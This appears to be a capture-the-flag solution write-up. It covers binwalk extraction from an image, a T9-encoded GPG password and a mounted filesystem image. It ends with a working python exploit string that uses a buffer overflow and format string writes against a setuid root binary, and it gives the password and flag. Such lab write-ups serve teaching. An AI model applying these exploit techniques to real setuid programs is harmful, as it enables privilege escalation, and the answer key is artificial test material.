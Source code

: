 <img src="../../../../../pc1-logo.png" height="250px">

# Thx 4 Axing

## Solution

The user is given a picture of an axe (`CHALLENGE.JPEG`). In a terminal, use
`binwalk` to extract files hidden inside the image:

```
$ binwalk --extract CHALLENGE.JPEG

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
3932          0xF5C           Zip archive data, at least v2.0 to extract,
compressed size: 12901292, uncompressed size: 12899322, name: CHALLENGE.gpg
12905378      0xC4EBA2        End of Zip archive

$ cd _CHALLENGE.JPEG.extracted/
$ ls
CHALLENGE.gpg  F5C.zip
```

The `binwalk` program extracted the `F5C.zip` file embedded in the original
`CHALLENGE.JPEG`, and then automatically uncompressed it, extracting the
final result in the form of `CHALLENGE.gpg`.

Using `strings` on the `F5C.zip` file will show a note appended at the end,
containing a hint about a possible password we might use on `CHALLENGE.gpg`:

```
$ strings F5C.zip
...
Decode the password:
18 24 34 47 34 47 18 24 23 17 12 47 47 19 36 37 13 39 36 28 47 23 23 25
```

The password is a T9 encoding on a cellphone keyboard (shown below):

<img src="keypad.png" height="100px">

The encoding scheme is: `18 = press 8 once`; `24 = press 4 twice`, etc. The
decoded password is `thisisthepasswordyouseek`.

Decrypt `CHALLENGE.gpg` with the password:

```
$ gpg --passphrase thisisthepasswordyouseek CHALLENGE.gpg
...
$ ls
CHALLENGE  CHALLENGE.gpg  F5C.zip
```

The decrypted challenge file is an ISO:

```
$ file CHALLENGE
CHALLENGE: ISO 9660 CD-ROM filesystem data 'CDROM'
```

You can mount the ISO to a new folder of your choice:

```
$ mkdir new
$ sudo mount CHALLENGE ./new
$ ls new/
asus_jffs  cifs2  etc_ro  lib  opt     rom       sbin     tmp  www
bin        dev    home    mmc  proc    root      sys      usr
cifs1      etc    jffs    mnt  ra_SKU  rr_moved  sysroot  var
```

There are a bunch of files named `vuln` scattered throughout this file system,
so we must look for one that is a valid ELF executable:

```
$ find new/ -name vuln -exec file {} +
new/asus_jffs/vuln:   setuid data
new/bin/vuln:         setuid data
new/etc_ro/vuln:      setuid data
new/jffs/vuln:        setuid data
new/proc/vuln:        setuid data
new/rom/dlna/vuln:    setuid data
new/rom/etc/vuln:     setuid data
new/sbin/vuln:        setuid data
new/tmp/vuln:         setuid data
new/usr/bin/vuln:     setuid data
new/usr/local/vuln:   setuid data
new/usr/sbin/vuln:    setuid ELF 32-bit LSB executable, Intel 80386, version 1
(SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0,
BuildID[sha1]=6933ed17af39cf8d3ba35e9c8767cd78bb01447b, not stripped
new/usr/vuln:         setuid data
new/www/userRpm/vuln: setuid data
new/www/vuln:         setuid data
```

At this point, the challenge relies on competitors having limited `sudo`
access (mount filesystems, but not start a root shell). The `new/usr/sbin/vuln`
program is owned by `root` and has the `setuid` flag enabled, which means it
runs with `root` privileges when executed by unprivileged users. The goal is
to exploit a buffer overflow and a format string vulnerability to get the
program to print out the flag as GPS coordinates.

As it is, running `strings` on the `vuln` binary divulges the string
`/root/flag.txt`, which we immediately guess must contain the flag we are
after. If access to the challenge machine is limited, competitors would have
to continue exploiting the vulnerable binary.

Executing the program to see what happens, we get:

```
$ cd new/usr/sbin/
$ ./vuln
What is your name?
hello
hello
```

The program has a buffer overflow and format string vulnerabilities. Use the
following string to exploit the program and revela the flag:

```
python -c "print '\x40\xa0\x04\x08\x44\xa0\x04\x08ijklmnopqrstuvwxyz'*4 + 'ABCDEFGH\x16\x86\x04\x08' + 'A'*4000 + '%7\$n' +'A'*450 + '%8\$n'" > string2
```

This is a python program to generate the exploit string and write it to a file.
The exploit string starts with two program addresses. These are variables that
need to be overwritten. Then some characters to fill up the buffer, then an
address to return to, followed by some more letters and a format string. More
details below.

### Buffer Overflow Vulnerability
The buffer overflow will be exploited such that the vulnerable function will
return to `0x08048616`. This is the address of function `a()`, which will print
the flag.

### Format String Vulnerability
In order for function `a()` to print the flag, certain conditions need to be
met with a few variables. Those variables have addresses `0x0804a040` and
`0x8040a044` as seen in the beginning of the exploit string.

The addresses will be the 7th and 8th variables on the stack when `printf()`
is called without a format string given. By using `%7$n`, the `printf()` call
will write a number (the number of characters output so far) to that address
location. This will set the variable's value to that number. In order for the
conditions to be met, `v1` must be bigger than 4000 and `v2` must be negative.
The values in the exploit string are such that those conditions are met.

Successful exploitation and causing the variables to meet the required
conditions will result in the program using its `suid` root privileges to
print the contents of the otherwise "inaccessible" file `/root/flag.txt`.


<br><br>

Flag - `40°42'24''N 74°0'40''W`

## License
Copyright 2020 Carnegie Mellon University.  
Released under a MIT (SEI)-style license, please see LICENSE.md in the project root or contact permission@sei.cmu.edu for full terms.
